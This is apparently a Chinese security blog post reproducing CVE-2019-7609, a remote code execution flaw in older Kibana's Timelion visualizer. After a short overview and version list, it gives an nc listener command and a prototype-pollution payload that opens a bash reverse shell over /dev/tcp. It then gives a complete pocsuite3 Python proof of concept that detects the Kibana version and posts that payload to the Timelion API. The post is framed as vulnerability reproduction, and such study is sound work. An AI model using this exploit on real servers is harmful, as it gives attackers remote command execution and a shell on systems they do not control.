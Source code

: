 ```yaml
---
title:  kibana远程代码执行漏洞复现
date: 2019-10-20 15:13:23
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - kibana
    - Elasticsearch
    - RCE
    - 漏洞复现
---
```


# 0x01 漏洞概述

Elasticsearch Kibana是荷兰Elasticsearch公司的一套开源的、基于浏览器的分析和搜索Elasticsearch仪表板工具。
Kibana 5.6.15之前版本和6.6.1之前版本中的Timelion visualizer存在安全漏洞。
远程攻击者可通过发送请求利用该漏洞执行JavaScript代码并能以Kibana进程权限执行任意命令。

# 0x02 影响版本

```
ElasticSearch Kibana <5.6.15
ElasticSearch Kibana <6.6.1
```

# 0x03 漏洞复现
## 复现环境

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191022192025.png)

该漏洞触发，需要` Timelion` 和 `Canvas`插件

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191022191915.png)

## 漏洞利用

在服务器监听
payload里面设置的什么端口，就监听什么端口。

`nc -lvvp 12345`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191022204934.png)


点在Timelion处,直接填入payload，点击run
**（如果有设置用户认证，则需要先登陆）**
过程和结果如图


**payload：**

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/IP/PORT 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```


![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191022210726.png)

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191022192538.png)

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191022205351.png)


**POC**

```
#! python3
"""

@FileName: elasticsearch_kibana_rce.py
@Author: dylan
@software: PyCharm 
@Datetime: 2019-10-20 15:23:54

"""
import re
from collections import OrderedDict
import json
import urllib.parse
from bs4 import BeautifulSoup
from pocsuite3.api import Output, POCBase, register_poc, requests, OptString


class DemoPOC(POCBase):
    vulID = "CVE-2019-7609"  # ssvid ID 如果是提交漏洞的同时提交 PoC,则写成 0
    version = "3.0"  # 默认为1
    author = "dylan"  # PoC作者的大名
    vulDate = "2019/10/20"  # 漏洞公开的时间,不知道就写今天
    createDate = "2019/10/20"  # 编写 PoC 的日期
    updateDate = "2019/10/20"  # PoC 更新的时间,默认和编写时间一样
    references = ["https://github.com/jas502n/kibana-RCE"]  # 漏洞地址来源,0day不用写
    name = "elasticsearch_kibana_rce"  # PoC 名称
    appPowerLink = ""  # 漏洞厂商主页地址
    appName = "elasticsearch_kibana"  # 漏洞应用名称
    appVersion = "Kibana < 6.6.1,Kibana < 5.6.15"  # 漏洞影响版本
    vulType = "rce"  # 漏洞类型,类型参考见 漏洞类型规范表
    desc = """
        Need Timelion And Canvas
    """  # 漏洞简要描述
    samples = []  # 测试样列,就是用 PoC 测试成功的网站
    install_requires = []  # PoC 第三方模块依赖，请尽量不要使用第三方模块，必要时请参考《PoC第三方模块依赖说明》填写
    pocDesc = """
    pocsuite -r "elasticsearch_kibana_rce.py" -u 目标ip --ncip "监听ip" --ncport "监听端口"

    pocsuite -r "elasticsearch_kibana_rce.py" -u https://192.168.1.1 --ncip "192.168.1.1" --ncport "12345"
    """

    def _options(self):
        o = OrderedDict()
        o["ncip"] = OptString('', description='请输入监听服务器IP', require=True)
        o["ncport"] = OptString('', description='请输入监听服务器端口', require=True)
        return o

    def _verify(self):
        # 验证代码
        result = {}
        output = Output(self)
        path1 = self.url + "/app/timelion"
        path2 = self.url + "/api/timelion/run"
        payload = {
            "sheet": [
                ".es(*).props(label.__proto__.env.AAAA='require(\"child_process\").exec(\"bash -i >& "
                "/dev/tcp/" + self.get_option("ncip") + "/" + self.get_option(
                    "ncport") + " 0>&1\");process.exit()//')\n.props("
                                "label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')"],
            "time": {"from": "now-15m", "to": "now", "mode": "quick", "interval": "auto",
                     "timezone": "Asia/Shanghai"}
        }

        html = requests.get(path1, verify=False, timeout=120).text
        # print(html)
        soup = BeautifulSoup(html, 'lxml')
        kbn_version = re.compile('\d\.\d\.\d').search(str(soup.find("kbn-injected-metadata"))).group(0)
        # print(kbn_version)

        header = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0",
            'Accept': 'application/json, text/plain, */*',
            "Accept-Language": "zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3",
            "Accept-Encoding": "gzip, deflate",
            'Connection': 'close',
            'kbn-version': kbn_version,
            'Content-Type': 'application/json;charset=UTF-8'
        }

        respose2 = requests.post(path2, headers=header, data=json.dumps(payload), verify=False, timeout=30)
        # print(respose2.status_code)
        if respose2.status_code == 200:  # result是返回结果
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url
            result['VerifyInfo']['Referer'] = ""
        return self.parse_output(result)

    def _attack(self):
        # 攻击代码
        return self._verify()

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail("target is not vulnerable")
        return output


# 注册 DemoPOC 类
register_poc(DemoPOC)

```

# 参考文章
[kibana-RCE: kibana < 6.6.0 未授权远程代码命令执行 (Need Timelion And Canvas),CVE-2019-7609](https://github.com/jas502n/kibana-RCE)
